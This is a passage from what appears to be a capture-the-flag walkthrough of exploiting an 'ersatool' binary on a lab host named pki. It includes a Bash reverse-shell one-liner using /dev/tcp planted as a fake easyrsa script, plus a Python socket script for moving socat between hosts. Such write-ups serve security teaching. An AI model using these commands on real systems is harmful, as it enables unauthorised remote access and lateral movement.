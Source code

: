 It needs to be executable as well:

```

oxdf@parrot$ chmod +x /dev/shm/easyrsa

```

Now I’ll start `tcpdump` and run the script:

```

oxdf@parrot$ sudo tcpdump -i lo icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
11:30:46.818608 IP localhost > localhost: ICMP echo request, id 13015, seq 1, length 64
11:30:46.818616 IP localhost > localhost: ICMP echo reply, id 13015, seq 1, length 64
11:30:47.867404 IP localhost > localhost: ICMP echo request, id 13015, seq 2, length 64
11:30:47.867417 IP localhost > localhost: ICMP echo reply, id 13015, seq 2, length 64

```

That’s command execution.

#### Remote Exploitation

To make this work remotely, I’ll need to interact with the binary. PwnTools isn’t on the container, so I’ll create tunnels so that my host can interact with the binary. I’ll use `socat`to both tunne from web to pki, and to host `ersatool` on pki:

![image-20211217115726485](https://0xdfimages.gitlab.io/img/image-20211217115726485.png)

On pki, I’ll drop a simple Bash script into `/dev/shm` to create a reverse shell back to web:

```

www-data@pki:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/192.168.254.2/4433 0>&1'
#!/bin/bash

bash -i >& /dev/tcp/192.168.254.2/4433 0>&1
www-data@pki:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/192.168.254.2/4433 0>&1' > easyrsa
www-data@pki:/dev/shm$ chmod +x easyrsa 

```

I’ll upload `socat` to web (using Python webserver). I need a good way to get it to pki. I wrote a short Python script:

```

#!/usr/bin/env python3

import socket

s = socket.socket()
s.connect(('192.168.254.2', 4433))
with open('/tmp/socat', 'wb') as f:
    data = s.recv(1024)
    while data:
        f.write(data)
        data = s.recv(1024)
s.close()

```
